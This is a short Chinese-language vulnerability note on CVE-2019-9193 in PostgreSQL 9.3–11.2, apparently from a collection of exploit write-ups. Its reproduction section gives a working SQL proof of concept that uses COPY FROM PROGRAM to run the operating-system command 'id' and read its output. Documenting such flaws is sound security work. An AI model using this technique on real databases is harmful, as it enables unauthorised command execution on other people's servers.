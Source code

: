 （CVE-2019-9193）PostgreSQL 高权限命令执行漏洞
==============================================

一、漏洞简介
------------

PostgreSQL
9.3至11.2版本中的导入导出数据命令`COPY TO/FROM PROGRAM`存在操作系统命令注入漏洞。攻击者可利用该漏洞获取数据库超级用户权限，从而执行任意系统命令。

二、漏洞影响
------------

PostgreSQL 9.3至11.2

三、复现过程
------------

首先连接到postgres中，并执行如下POC：

    DROP TABLE IF EXISTS cmd_exec;
    CREATE TABLE cmd_exec(cmd_output text);
    COPY cmd_exec FROM PROGRAM 'id';
    SELECT * FROM cmd_exec;

![1.png](./.resource/(CVE-2019-9193)PostgreSQL高权限命令执行漏洞/media/rId24.png)

![2.png](./.resource/(CVE-2019-9193)PostgreSQL高权限命令执行漏洞/media/rId25.png)
